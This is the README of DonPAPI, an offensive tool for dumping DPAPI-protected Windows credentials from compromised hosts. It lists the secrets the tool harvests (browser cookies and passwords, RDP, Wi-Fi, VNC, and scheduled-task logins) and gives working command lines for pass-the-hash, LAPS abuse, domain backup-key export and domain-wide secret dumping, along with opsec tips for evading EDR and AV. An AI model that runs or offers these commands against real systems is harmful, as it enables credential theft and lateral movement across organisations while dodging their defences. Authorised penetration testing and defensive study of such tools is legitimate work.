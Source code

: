 # DonPAPI

Dumping revelant information on compromised targets without AV detection
![alt text](https://github.com/login-securite/DonPAPI/blob/main/res/Logo%20DonPapi.png)


## DPAPI dumping

Lots of credentials are protected by [DPAPI](https://docs.microsoft.com/en-us/dotnet/standard/security/how-to-use-data-protection).

We aim at locating those "secured" credentials, and retrieve them using :

- User password
- Domaine DPAPI BackupKey
- Local machine DPAPI Key (protecting `TaskScheduled` blob)

## Curently gathered info

- Windows credentials (Taskscheduled credentials & a lot more)
- Windows Vaults
- Windows RDP credentials 
- AdConnect (still require a manual operation)
- Wifi key
- Intenet explorer Credentials
- Chrome cookies & credentials
- Firefox cookies & credentials
- VNC passwords
- mRemoteNG password (with default config)

## Check for a bit of compliance

- SMB signing status
- OS/Domain/Hostname/Ip of the audited scope

## Operational use

With local admin account on a host, we can :

- Gather machine protected DPAPI secrets
  - ScheduledTask that will contain cleartext login/password of the account configured to run the task
  - Wi-Fi passwords
- Extract Masterkey's hash value for every user profiles (masterkeys beeing protected by the user's password, let's try to crack them with Hashcat)
- Identify who is connected from where, in order to identify admin's personal computers. 
- Extract other non-dpapi protected secrets (VNC/Firefox/mRemoteNG)
- Gather protected secrets from IE, Chrome, Firefox and start reaching the Azure tenant.

With a user password, or the domain PVK we can unprotect the user's DPAPI secrets.  

## Examples

Dump all secrets of the target machine with an admin account : 

```bash
DonPAPI.py domain/user:passw0rd@target
```

Using user's hash

```bash
DonPAPI.py --hashes <LM>:<NT> domain/user@target
```

Using kerberos (-k) and local auth (-local_auth)

```bash
DonPAPI.py -k domain/user@target
DonPAPI.py -local_auth user@target
```

Using a user with LAPS password reading rights

```bash
DonPAPI.py -laps domain/user:passw0rd@target
```

It is also possible to provide the tool with a list of credentials that will be tested on the target. DonPAPI will try to use them to decipher masterkeys.

This credential file must have the following syntax:

```plain
user1:pass1
user2:pass2
...
```

```bash
DonPAPI.py -credz credz_file.txt domain/user:passw0rd@target
```

When a domain admin user is available, it is possible to dump the domain backup key using impacket `dpapi.py` tool. 

```bash
dpapi.py backupkeys --export -t domain/user:passw0rd@target_dc_ip
```

This backup key (pvk file) can then be used to dump all domain user's secrets!

`python DonPAPI.py -pvk domain_backupkey.pvk domain/user:passw0rd@domain_network_list`

Target can be an IP, IP range, CIDR, file containing list targets (one per line)


## Opsec consideration

The RemoteOps part can be spoted by some EDR. It can be disabled using `--no_remoteops` flag, but then the machine DPAPI key won't be retrieved, and scheduled task credentials/Wi-Fi passwords won't be harvested. 

## Installation

```
git clone https://github.com/login-securite/DonPAPI.git
cd DonPAPI
python3 -m pip install -r requirements.txt
python3 DonPAPI.py
```

## Credits

All the credits goes to these great guys for doing the hard research & coding :

- Benjamin Delpy ([@gentilkiwi](https://twitter.com/gentilkiwi)) for most of the DPAPI research (always greatly commented, <3 your code)
- Alberto Solino ([@agsolino](https://twitter.com/agsolino)) for the tremendous work of Impacket (https://github.com/SecureAuthCorp/impacket). Almost everything we do here comes from impacket. 
- [Alesandro Z](https://github.com/AlessandroZ) & everyone who worked on Lazagne (https://github.com/AlessandroZ/LaZagne/wiki) for the VNC & Firefox modules, and most likely for a lots of other ones in the futur. 
- dirkjanm [@_dirkjan](https://twitter.com/_dirkjan) for the base code of adconnect dump (https://github.com/fox-it/adconnectdump) & every research he ever did. I learned so much on so many subjects thanks to you. <3
- [@byt3bl33d3r](https://twitter.com/byt3bl33d3r) for CME (lots of inspiration and code comes from CME : https://github.com/byt3bl33d3r/CrackMapExec )
- All the Team at [@LoginSecurite](https://twitter.com/LoginSecurite) for their help in debugging my shity code (special thanks to [@layno](https://github.com/clayno) & [@HackAndDo](https://twitter.com/HackAndDo) for that)

## Todo

- Finish ADSync/ADConnect password extraction
- CREDHISTORY full extraction
- Extract windows Certificates
- Further analysis ADAL/msteams
- Implement Chrome <v80 decoder
- Find a way to implement Lazagne's great modules

# Changelog

  ```
  v1.0
  ----
  Initial release
  ```
